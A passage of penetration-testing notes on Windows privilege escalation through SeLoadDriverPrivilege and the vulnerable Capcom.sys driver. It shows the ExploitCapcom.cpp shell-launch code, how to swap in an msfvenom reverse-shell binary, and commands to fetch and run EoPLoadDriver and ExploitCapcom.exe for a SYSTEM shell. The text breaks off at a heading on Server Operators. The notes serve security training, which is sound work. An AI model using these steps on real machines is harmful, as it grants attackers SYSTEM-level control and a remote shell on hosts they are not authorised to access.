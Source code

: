 **Alternate Exploitation - No GUI **

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

The `CommandLine` string in this example would be changed to:

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

**Automating the Steps**

We can use a tool such as EoPLoadDriver to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver. To do this, we would run the following

   - Download EoPLoadDriver : 
```cmd
wget https://github.com/TarlogicSecurity/EoPLoadDriver/
```

   - Use EoPLoadDriver : 
```powershell
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.

#### Server Operators
#Print_Operators

   - Confirming service starts : 
```cmd
 sc qc AppReadiness
```
